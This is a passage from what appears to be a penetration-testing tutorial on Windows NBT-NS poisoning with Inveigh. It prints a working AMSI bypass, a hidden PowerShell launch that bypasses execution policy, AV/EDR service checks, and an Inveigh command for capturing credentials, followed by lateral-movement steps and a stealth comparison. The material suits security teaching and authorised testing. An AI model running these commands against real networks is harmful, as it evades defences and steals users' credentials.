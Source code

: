 #### AMSI Bypass

```powershell
# Attempt to bypass AMSI before loading Inveigh
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Process Isolation

```powershell
# Run in a separate PowerShell process
Start-Process powershell -ArgumentList "-ExecutionPolicy Bypass -File .\RunInveigh.ps1" -WindowStyle Hidden
```

### Practical Scenarios for Windows-Based Poisoning

#### Internal Penetration Testing

During internal penetration testing, Windows-based NBT-NS poisoning offers several advantages:

1. **Blend in**: Looks like normal Windows traffic
2. **Endpoint testing**: Test endpoint security controls directly
3. **Policy testing**: Evaluate PowerShell restrictions and application whitelisting

#### Post-Exploitation

After gaining access to a Windows system:

```powershell
# Check for AV/EDR
Get-Service | Where-Object { $_.DisplayName -like "*Defender*" -or $_.DisplayName -like "*Symantec*" -or $_.DisplayName -like "*McAfee*" }

# Check PowerShell execution policy
Get-ExecutionPolicy

# Run Inveigh with appropriate settings based on environment
Invoke-Inveigh -NBNS Y -NBNSTypes 00,20 -ConsoleOutput Y
```

#### Network Lateral Movement

Use NBT-NS poisoning to expand access through the network:

1. Compromise initial Windows system
2. Run Inveigh to capture credentials from other segments
3. Use captured credentials to move laterally
4. Repeat process in new network segments

### Comparing Windows vs. Linux Poisoning Approaches

| Aspect               | Windows-Based                              | Linux-Based                                    |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Stealth              | Higher (looks like normal Windows traffic) | Lower (unusual for Linux to respond to NBT-NS) |
| Ease of setup        | More complex (PowerShell restrictions)     | Simpler (tools designed for this purpose)      |
| Performance          | Variable (depends on host resources)       | Generally higher                               |
| Persistence options  | More native options                        | Requires custom solutions                      |
| Detection likelihood | Lower (if properly executed)               | Higher (abnormal network behavior)             |
